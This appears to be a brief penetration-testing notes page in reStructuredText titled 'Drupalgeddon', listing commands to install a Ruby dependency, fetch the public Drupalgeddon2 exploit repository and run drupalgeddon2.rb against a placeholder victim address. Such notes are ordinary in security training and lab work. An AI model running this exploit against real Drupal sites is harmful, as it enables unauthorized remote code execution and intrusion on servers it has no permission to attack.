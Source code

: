 Drupalgeddon
******************

Pre-install
#################

.. code-block:: console

   apt install ruby-highline

pull repo   
############

.. code-block:: console

   https://github.com/dreadlocked/Drupalgeddon2

running Drupalgeddon
########################

.. code-block:: console

   ./drupalgeddon2.rb http://<victimIPaddress>

